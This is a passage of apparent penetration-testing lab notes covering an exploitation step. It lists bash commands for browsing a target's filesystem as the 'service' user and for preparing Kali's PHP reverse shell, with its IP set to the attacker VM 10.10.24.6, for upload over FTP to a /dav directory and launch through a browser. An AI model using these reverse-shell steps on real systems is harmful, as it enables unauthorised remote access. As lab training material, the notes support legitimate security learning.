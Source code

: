 ![](4-exploitationassets/image-20230424144745088.png)

```bash
pwd
	Remote directory: /home/service
# User's home directory
cd /
ls
# The "service" user can navigate in the entire file system
exit
```

- **Upload a `PHP` reverse shell** via FTP to the `/dav` directory and launch it with the browser

```bash
ls -al /usr/share/webshells/php/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
vim shell.php
# Change the $ip variable to the Kali Attacker VM IP - 10.10.24.6
```

![](4-exploitationassets/image-20230424145319852.png)

